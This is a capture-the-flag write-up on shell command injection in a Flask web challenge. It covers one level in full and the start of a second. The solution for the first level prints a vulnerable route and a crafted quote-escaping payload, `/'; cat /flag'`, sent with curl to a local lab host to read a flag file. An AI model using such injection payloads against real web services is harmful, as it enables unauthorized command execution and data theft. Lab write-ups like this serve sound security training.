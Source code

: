 
# 3

## Description

An interesting thing about command injection is that you don't get to choose where in the command the injection occurs: the developer accidentally makes that choice for you when writing the program. Sometimes, these injections occur in uncomfortable places. Consider the following:

os.system(f"echo Hello '{word}'")
Here, the developer tried to convey to the shell that word should really be only one word. The shell, when given arguments in single quotes, treats otherwise-special characters like ;, $, and so on as just normal characters, until it hits the closing single quote (').

This level gives you this scenario. Can you bypass it?

HINT: Keep in mind that there will be a ' character right at the end of whatever you inject. In the shell, all quotes must be matched with a partner, or the command is invalid. Make sure to craft your injection so that the resulting command is valid!

## Solution

1. see how the server process the argument

```
@app.route("/problem", methods=["GET"])
def challenge():
    arg = flask.request.args.get("topdir", "/challenge")
    command = f"ls -l '{arg}'"
```

2. craft url where `topdir=/'; cat /flag'`

So that the server will do - `command = f"ls -l '/'; cat /flag''" = command = f"ls -l /; cat /flag` 

```
curl challenge.localhost/problem?topdir=%2F%27%3B+cat+%2Fflag%27
```

---

# 4

## Description

Calling shell commands to carry out work, or "shelling out" as it is often termed, is dangerous. Any part of a shell command is potentially injectible! In this level, we'll practice injecting into a slightly different part of a slightly different command.

## Solution

1. see how the server process the argument
